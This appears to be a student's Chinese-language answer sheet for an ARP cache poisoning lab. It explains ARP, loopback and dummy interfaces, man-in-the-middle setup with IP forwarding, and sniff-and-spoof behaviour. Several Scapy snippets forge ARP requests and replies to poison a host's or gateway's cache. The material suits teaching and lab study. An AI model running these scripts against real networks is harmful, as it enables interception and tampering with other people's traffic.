# ARP Poison



混杂模式一般用于抓包分析、流量监听等

***



因为 MAC 地址通常是网卡的硬件标识，是和用户设备深度绑定的，所以可以通过追踪 MAC 地址来进行设备识别和用户追踪

***



因为它发送出去的数据不会真正离开本机，而是绕一圈又回到自己，发给回环接口的数据包仍然由本机自己接收和处理

***



相同点：

- 都是虚拟接口
- 都不对应真实物理网卡
- 都可配置 IP 地址
- 都可用于测试、绑定服务、系统配置

不同点：

- 回环接口：

  - 发出的包会回到本机

  - 主要用于本机内部通信

- dummy 接口：

  - 可以配置地址，但不用于真正收发网络流量

  - 发给 dummy 的流量不会像 loopback 那样形成本机回环通信

***



因为在局域网中，真正用于以太网发送的是 MAC 地址，而上层（IP 层）只知道 IP 地址，所以当主机要给某个 IP 发包时，必须先知道这个 IP 对应的 MAC 地址。

***



目标 MAC 地址为广播地址（`FF:FF:FF:FF:FF:FF`），源 MAC 地址为 10.8.8.5 对应的 MAC 地址

***



发送者的 MAC 地址为 10.8.8.5 对应的 MAC 地址，IP 地址为 10.8.8.5，目标 MAC 地址为 00:00:00:00:00:00，目标 IP 为 10.8.8.8

***



目标 IP 地址为 10.8.8.1

***



不会获得 ping 包，因为在发 ping 包之前会先发 ARP 请求包，发现 10.8.8.100 不存在子网上，得不到 ARP 回复包，因此就得不到目标 MAC，封装不了 IP 包

***



能够获得 ping 包，因为发 ping 包前知道 1.2.3.4 不存在子网上，所以会将下一跳的默认网关作为目标 MAC 和目标 IP，因此能够封装数据包，发送 ping 包交由网关去路由

***



```python
from scapy.all import *

A_IP = "10.8.8.5"
B_IP = "10.8.8.1"
M_MAC = "Attacker's MAC Address"
broadcast = "ff:ff:ff:ff:ff:ff"

pkt = Ether(src = M_MAC, dst = broadcast) / ARP(op = 1, psrc = B_IP, hwsrc = M_MAC, pdst = A_IP)
sendp(pkt)
```

***



```python
from scapy.all import *

A_IP = "10.8.8.5"
A_MAC = "A's MAC Address"
B_IP = "10.8.8.1"
M_MAC = "Attacker's MAC Address"

pkt = Ether(src = M_MAC, dst = A_MAC) / ARP(op = 2, psrc = B_IP, hwsrc = M_MAC, pdst = A_IP, hwdst = A_MAC)
sendp(pkt)
```

***



```python
from scapy.all import *

B_IP = "10.8.8.1"
M_MAC = "Attacker's MAC Address"
broadcast = "ff:ff:ff:ff:ff:ff"

pkt = Ether(src = M_MAC, dst = broadcast) / ARP(op = 1, psrc = B_IP, hwsrc = M_MAC, pdst = B_IP, hwdst = broadcast)
sendp(pkt)
```

***



不可以，因为 ARP 是二层协议，ARP 帧不会被路由器转发，只有与受害主机处于同一个局域网内，才能直接发送 ARP 请求/回复到对方

***



这是个假消息，ARP 消息不可能从远程的机器发出影响到公司的网络

***



M 需要做：

1. 对 A 和 B 分别进行持续 ARP 投毒，这样 A 发给 B 的帧会先发到 M，B 发给 A 的帧也会先发到 M
   - 让 A 认为：B 的 IP 对应 M 的 MAC
   - 让 B 认为：A 的 IP 对应 M 的 MAC
2. M 开启 IP 转发
   - 收到 A 发来的包后，修改或不修改，再转发给 B
   - 收到 B 发来的包后，也转发给 A

***



（1）A 发给 B 的 IP 包会到达 M，但不会自动转发给 B，A 和 B 之间的通信将中断

（2）M 会把收到的、原本该去 B 的 IP 包继续转发给 B，A 和 B 之间会有通信

（3）应该关闭 IP 转发

***



因为投毒后，在 A 的 ARP 缓存里 B 的 IP 对应 M 的 MAC，所以 A 在二层封装时，会把以太网帧的目标 MAC 写成 M 的 MAC。因此这个帧会被交换机送到 M，M 的网卡就能直接收到该包，然后攻击程序再抓取它。

***



因为攻击者修改了数据包内容后，原来的校验和就失效了。接收端检验发生错误会将数据包丢弃。

***



可以，最初能够正常工作，但速度会变得越来越慢，最终停止运行。这是因为 M 发出的修改后的数据包也满足过滤器中的条件，所以 M 发出的每个数据包都会被嗅探器捕获，从而触发另一轮数据包。而这又会再次触发一轮新的数据包，如此循环下去，键入 telnet 客户端程序的次数越多，进入这个循环的数据包就越多。因此输入得越多，M 的速度就越慢。

***





```python
# Constructing spoofed ARP request to Host A
ether1 = Ether(dst = "aa:bb:cc:dd:ee:05")
arp1 = ARP(op=1)
arp1.psrc = "10.9.0.6"                 # An IP address
arp1.hwsrc = "aa:bb:cc:dd:ee:09"       # An Ethernet address
arp1.pdst = "10.9.0.5"                 # An IP address
sendp(ether1/arp1)

# Constructing spoofed ARP request to Host B
ether2 = Ether(dst = "aa:bb:cc:dd:ee:06")
arp2 = ARP(op=1)
arp2.psrc = "10.9.0.5"
arp2.hwsrc = "aa:bb:cc:dd:ee:09"
arp2.pdst = "10.9.0.6"
sendp(ether2/arp2)
```

